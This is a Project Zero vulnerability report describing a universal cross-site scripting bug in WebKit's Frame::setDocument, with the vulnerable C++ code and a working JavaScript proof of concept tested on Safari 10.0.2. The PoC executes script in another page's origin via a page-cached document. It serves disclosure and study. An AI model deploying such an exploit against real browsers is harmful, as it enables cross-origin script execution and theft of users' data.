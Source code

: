 # UXSS via Frame::setDocument (1).

### Reported by lokihardt@google.com, Dec 20 2016

```cpp
void Frame::setDocument(RefPtr<Document>&& newDocument)
{
    ASSERT(!newDocument || newDocument->frame() == this);

    if (m_doc && m_doc->pageCacheState() != Document::InPageCache)
        m_doc->prepareForDestruction();

    m_doc = newDocument.copyRef();
    ...
}
```

The function `prepareForDestruction` only called when the cache state is not `Document::InPageCache`. So the frame will be never detached from the cached document.

PoC:
```js
"use strict";

document.write("click anywhere to start");

window.onclick = () => {
let w = open("about:blank", "one");
let d = w.document;

    let a = d.createElement("a");
    a.href = "https://abc.xyz/";
    a.click();  // <<------- about:blank -> Document::InPageCache

    let it = setInterval(() => {
        try {
            w.location.href.toString;
        } catch (e) {
            clearInterval(it);

            let s = d.createElement("a");  // <<------ about:blank's document
            s.href = "javascript:alert(location)";
            s.click();
        }
    }, 0);

};
```

Tested on Safari 10.0.2(12602.3.12.0.1).
Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1056
